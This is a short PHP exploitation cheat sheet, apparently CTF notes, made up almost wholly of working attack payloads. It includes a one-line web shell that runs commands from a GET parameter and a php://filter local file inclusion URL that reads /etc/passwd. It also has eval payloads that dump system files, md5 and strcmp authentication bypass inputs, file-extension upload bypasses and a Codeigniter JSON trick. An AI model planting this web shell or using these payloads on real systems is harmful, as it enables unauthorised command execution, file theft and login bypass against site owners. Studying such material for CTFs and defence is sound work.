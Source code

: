 ## PHP

- **Run commands**
  ```php
  <?php
    echo system($_GET['c']);
  ?>
  ```
  
- `preg_replace`

  - Local File Inclusion bug.
    - [http://php.net/manual/en/function.preg-replace.php](http://php.net/manual/en/function.preg-replace.php)

- `phpdc.phpr`

  - Decompile if used `bcompile`.

- `php://filter`

  ```txt
  http://target.com/index.php?m=php://filter/convert.base64-encode/resource=/etc/passwd
  ```

- `md5('value', true);`

  List of bypass strings

  - `129581926211651571912466741651878684928`

- `strcmp`

  List of bypass strings
  - `?password[]=123`

- `eval`

  - `phpinfo();`
  - `var_dump(scandir('/'));`
  - `var_dump(file_get_contents('/etc/passwd'));`

- [`Hash extender`](https://github.com/iagox86/hash_extender)
  - `username=guest&date=2025-04-05T20:02:28+0800&secret_length=8&`


### File extension bypass

  - `.php5`
  - `.jpg.php`

### Codeigniter

  - **Add "root" head into json**
      - `{"username":"admin","password":"123"}` -> `{"root":{"username":"admin","password":"123"}}`
